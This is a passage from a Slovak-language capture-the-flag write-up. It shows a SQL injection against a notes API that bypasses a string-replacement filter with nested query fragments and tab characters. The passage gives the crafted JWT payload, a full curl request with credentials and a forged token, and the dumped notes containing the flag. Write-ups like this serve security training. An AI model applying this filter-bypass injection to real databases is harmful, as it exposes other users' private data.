 čo nie je valídne, pretože máme síce ukončene úvodzovky za `user_id=` ale ďalšiu tam máme, ale keď vložím dva prematche dostanem

```sql
SELECT * FROM notes WHERE user_id = 'SELECT * FROM notes WHERE user_id = 'SELECT * FROM notes WHERE user_id = ''
```

Mám tam dva páry úvodzoviek... keď medzi prematche hodím injekt ` OR TRUE UNION`

mali by sme dostať

```sql
SELECT * FROM notes WHERE user_id = 'SELECT * FROM notes WHERE user_id = ' OR TRUE UNION SELECT * FROM notes WHERE user_id = ''
```

ale medzery sú matchnuté a nahradené, no databáza nám povolí TAB ako whitespace, takže len medzery nahradíme tabom.

```sql
SELECT * FROM notes WHERE user_id = 'SELECT * FROM notes WHERE user_id = '    OR    TRUE    UNION    SELECT * FROM notes WHERE user_id = ''
```

[Vieme pozrieť aj cez Try it online!](https://tio.run/##XY9Bb4JAEIXP8CsmGxN2jcgPIHgxmDaxkqJND26jBEe7DdnF2aUXwm@ntCXW9Pi@9zLvzUfxWdiSVO1CbU7Y96XR1sFZVQ5p@7xevhdkIQGudN04AckCWh@A0DWk4QfOCeuqKJFH@4DFUiZcyEhqSfAWXWbAmPhLhOGIYr@Lff@3TA332eToZbnnqEHvZfOYbbzJkY3@9dvfput0uYMprPLsCbRxaOH1Ic1TaCzSQZ2GUNC2o@i6gN1a2R1ms3@/cSXEuMRUOK/MhV8H0Pdf "JavaScript (Node.js) – Try It Online")

Jwt evil_payload bude teda `eyJpZCI6IiRgXHRPUlx0dHJ1ZVx0VU5JT05cdCRgIn0`

pošleme request

```bash
curl -X GET "http://exp.cybergame.sk:7000/secretbackend/api/notes" -H "Authorization: Basic cHIxbmNlc3M6U0stQ0VSVHswZmZfYnlfNF9zMW5nbGVfc2w0c2hfZjgzNmE4YjF9" -H "Content-Type: application/json" --cookie "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IiRgXHRPUlx0dHJ1ZVx0VU5JT05cdCRgIn0.eyJpZCI6ImQ0YjQxNzViLTZhM2MtNDE0Mi05MzdmLTc5ZDIyNTEwMWJlYyIsInVzZXJuYW1lIjoicG9ueSJ9.JZ1haLrzEx0J3horEnL0j2B8JezL7pe9rrmbv3ShwW4%3D"
```

A vráti nám komplet vsetky poznámky v poli jsonov

Keď si pekne vypíšeme poznámky preddefinovaných používateľov, dostaneme

```
8763 - c11dd99f-f42b-4ef8-ab0c-f6e2b52741bd - The stars whisper of her return. We must be ready.
8764 - c11dd99f-f42b-4ef8-ab0c-f6e2b52741bd - Guard the archives well—secrets must remain hidden.
8765 - c11dd99f-f42b-4ef8-ab0c-f6e2b52741bd - The night’s blessing grants us strength beyond the sun’s reach.
8766 - a6fb80d6-9352-44dd-a891-03e264029b55 - The sun’s reign weakens, and soon the night shall rule eternal.
8767 - a6fb80d6-9352-44dd-a891-03e264029b55 - They suspect nothing. The dream realm is our true domain.
8768 - a6fb80d6-9352-44dd-a891-03e264029b55 - Loyalty is not given, it is proven under the cover of darkness.
8769 - 0405c296-5573-4ed3-8ea5-f498a827c789 - In the darkness, our kind thrives. Equestria will remember us.
8770 - 0405c296-5573-4ed3-8ea5-f498a827c789 - The night calls to those who listen. Do you hear it?
8771 - 0405c296-5573-4ed3-8ea5-f498a827c789 - The Lunar Guard grows stronger in the unseen corners of the realm.
8772 - e42e4e03-1a1a-4657-846b-9ed5688a4291 - I am the queen of the night, the ruler of the moon. I will rule Equestria.
8773 - e42e4e03-1a1a-4657-846b-9ed5688a4291 - The Elements of Harmony will not stop me. I will have my revenge.
8774 - e42e4e03-1a1a-4657-846b-9ed5688a4291 - Curses upon Celestia’s sunlit tyranny! Under Nightmare Moon’s eternal darkness, our JSpells grow strong. Our cursed code will seize control. Together, we shall take over Equestria! SK-CERT{j4v4scr1p7_1s_full_of_curs3d_(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(![]+[])[+[]]+(![]+[])[+[]]}
8775 - e42e4e03-1a1a-4657-846b-9ed5688a4291 - The night will last forever.
```